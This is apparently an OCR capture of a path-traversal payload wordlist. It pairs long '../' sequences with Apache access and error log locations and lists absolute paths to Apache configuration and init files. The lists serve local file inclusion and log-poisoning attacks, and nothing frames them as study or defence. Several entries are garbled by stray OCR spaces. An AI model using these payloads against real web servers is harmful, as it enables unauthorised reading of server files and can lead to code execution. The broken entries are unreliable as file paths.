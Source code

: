 		../../../../../../../etc/httpd/logs/error_log

		../../../../../../../etc/httpd/logs/error.log

		../../../../../../../var/www/logs/access_log

		../../../../../../../var/www/logs/access.log

		../../../../../../../usr/local/apache/logs/access_ log

		../../../../../../../usr/local/apache/logs/access. log

		../../../../../../../var/log/apache/access_log

		../../../../../../../var/log/apache2/access_log

		../../../../../../../var/log/apache/access.log

		../../../../../../../var/log/apache2/access.log

		../../../../../../../var/log/access_log

		../../../../../../../var/log/access.log

		../../../../../../../var/www/logs/error_log

		../../../../../../../var/www/logs/error.log

		../../../../../../../usr/local/apache/logs/error_l og

		../../../../../../../usr/local/apache/logs/error.l og

		../../../../../../../var/log/apache/error_log

		../../../../../../../var/log/apache2/error_log

		../../../../../../../var/log/apache/error.log

		../../../../../../../var/log/apache2/error.log

		../../../../../../../var/log/error_log

		../../../../../../../var/log/error.log

		/etc/init.d/apache

		/etc/init.d/apache2

		/etc/httpd/httpd.conf

		/etc/apache/apache.conf

		/etc/apache/httpd.conf

		/etc/apache2/apache2.conf

		/etc/apache2/httpd.conf

		/usr/local/apache2/conf/httpd.conf

		/usr/local/apache/conf/httpd.conf

		/opt/apache/conf/httpd.conf

		/home/apache/httpd.conf
